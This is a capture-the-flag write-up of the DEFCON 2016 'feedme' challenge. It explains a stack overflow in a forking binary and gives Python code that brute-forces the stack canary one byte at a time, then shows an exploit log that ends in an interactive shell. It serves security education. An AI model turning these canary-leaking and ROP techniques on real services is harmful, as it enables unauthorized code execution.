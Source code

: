 +++
title = "DEFCON CTF 2016 - feedme"
authors = ["hugsy"]
date = 2016-05-23T00:00:00Z
updated = 2016-05-23T00:00:00Z

[taxonomies]
categories = ["ctf"]
tags = ["pwn","defcon-2016","x86","brop"]
+++

### Info ###

The vulnerable file was given with the instructions:

    :::text
    Don't forget to feed me
    http://www.scs.stanford.edu/brop/

Here are some info given by `gef`:
```bash
gef➤  !file ./feedme
./feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
gef➤  checksec
[+] checksec for '/home/vagrant/feedme'
Canary:                                           No
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    No
Full RelRO:                                       No
```

`feedme` is statically linked x86 binary that forks and then expects "to be fed"
with some input. Pretty simple, right?


### Vulnerability ###

The vulnerability in this case is easy to spot:
```bash
gef➤  c
Continuing.
[New process 1349]
FEED ME!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ATE 41414141414141414141414141414141...
*** stack smashing detected ***: /home/vagrant/feedme terminated

Program received signal SIGABRT, Aborted.
[Switching to process 1349]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[registers]──
$eax     0x00000000 $ebx     0x00000545 $ecx     0x00000545 $edx     0x00000006 $esp     0xffffd388 $ebp     0xffffd5f8
$esi     0xffffd518 $edi     0xffffd434 $eip     0xf7ffdba0 $cs      0x00000023 $ss      0x0000002b $ds      0x0000002b
$es      0x0000002b $fs      0x00000000 $gs      0x00000063 $eflags  [ IF ]
Flags: [ carry  parity  adjust  zero  sign  trap  INTERRUPT  direction  overflow  resume  virtualx86  identification ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[stack]──
0xffffd388│+0x00: 0xffffd5f8 → 0xffffd678 → 0x41414141		← $sp
0xffffd38c│+0x04: 0x6
0xffffd390│+0x08: 0x545
0xffffd394│+0x0c: 0x0807bed7 → cmp eax,0xfffff000
0xffffd398│+0x10: "A"
0xffffd39c│+0x14: 0x0804e3e1 → mov edx,DWORD PTR gs:0x8
0xffffd3a0│+0x18: 0x6
0xffffd3a4│+0x1c: 0xffffd3b4 → " "
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[code:i386]──
0xf7ffdb9b	 <__kernel_vsyscall+11>  nop
0xf7ffdb9b	 <__kernel_vsyscall+11>  nop
0xf7ffdb9c	 <__kernel_vsyscall+12>  nop
0xf7ffdb9d	 <__kernel_vsyscall+13>  nop
0xf7ffdb9e	 <__kernel_vsyscall+14>  int    0x80
0xf7ffdba0	 <__kernel_vsyscall+16>  pop    ebp 		 ← $pc
[...]
```

The interesting function is at 0x08049036:


{{ img(src="https://i.imgur.com/WLAWsAW.png" title="do-feedme") }}

This function basically will:

   1. `0x8049053-0x8049058`: call the `xread_char()` function, which will read 1
      character from stdin and store it in the stack variable (called `len`);
   1. `0x804905F-0x8049069`: use this variable as the number of byte to read from stdin in the call to
      `xread_buffer()`, and store the result in the stack buffer allocated,
      called `buf`, whose size is 0x20 bytes;
   1. `0x804907E-0x8049084`: copy the `buf` content to a bigger array (0x400 bytes) located at the
      address 0x80EBF40.
   1. `0x804909D-0x80490A7`check if the `canary` variable has been tampered with, if so leave in
      error.

So we have a traditional stack buffer overflow, where we need to bypass the
canary token.


### Exploitation ###

Before continuing, I would recommend reading the paper & slides related to the
[blind-rop technique](http://www.scs.stanford.edu/brop/) we're going to be using.

Since the child process is being forked, we know that the parent and child are
identical in every way, including the memory mapping and the canary token. So
the idea for this exploitation is to brute-force one-by-one all the bytes from the
canary variable in stack, with the following binary logic: overwrite one byte of
the canary with a value, `X`. If we have a crash, it will mean that the canary is
corrupted, and therefore `X` is not valid. If it does not crash, then `X` is
valid, and we can reproduce this action with the following canary byte
(this is very analog to the exploitation of a colour-blind SQL
injection exploitation).

So we have this buffer:

```bash
| A A A A A A A A A A A A A A A| 1 2 3 4|
```

If we attempt to corrupt the first byte of the canary with a wrong value, our
process will be killed immediately and we will receive the message ("Child exit"):

```bash
| A A A A A A A A A A A A A A A| X 2 3 4|
```

But when the value for the byte is valid, the program will continue its
execution at 0x080490DF and display a message ("YUM, got...").
```bash
080490DF mov     [esp+4], eax
080490E3 mov     dword ptr [esp], offset aYumGotDBytes ; "YUM, got %d bytes!\n"
080490EA call    xprintf
```

So leaking one byte can be summed with the following Python code:

```python
def leak_canary_byte(s, prefix, off):
    for i in range(256):
        p = 'A'*32 + prefix + chr(i)
        xsend(s, p, len(p) )
        res = s.read_until("\n")
        res2 = s.read_until("\n")
        if res2 != "Child exit.\n":      # if we don't get the "Child exit." message, then our current value is correct
            return chr(i)
    return None
```

Once we have the value of the first byte, we resume the same operation with the
2nd and so on, until having the 4 bytes forming the canary.

```python
def leak_canary(s):
    can = ""
    for i in range(4):
        b = leak_canary_byte(s, can, i)
        if b is None:
            err("bail")
            exit(1)
        ok("Found canary[%d]=%.2x"%(i, ord(b)))
        can += b
    return can
```


We know control the execution flow without triggering the `canary_fail()`
function. All we need to do is build the shellcode using regular ROP. Since the
binary is statically compiled, we have more gadgets than we need.

So wrap this all up in a
[final exploit](https://gist.github.com/hugsy/0f196cfb8c62a4c56fdbc424cb7883bf)
and you have code execution:

```bash
/ $ ./feedme.py                                                                                                                                                                             [18:58]
[+] Connected to 172.28.128.4:4092
[+] Leaking canary using BROP
[+] Found canary[0]=00
[+] Found canary[1]=0c
[+] Found canary[2]=77
[+] Found canary[3]=9a
[+] Using canary '0x9a770c00'
[+] Building shellcode
[+] Sending shellcode
[+] Switching to interactive...
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"   '
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare)
You ran out of time, closing!
```

And find the flag `The flag is: It's too bad! we c0uldn't??! d0 the R0P CHAIN BLIND TOO`
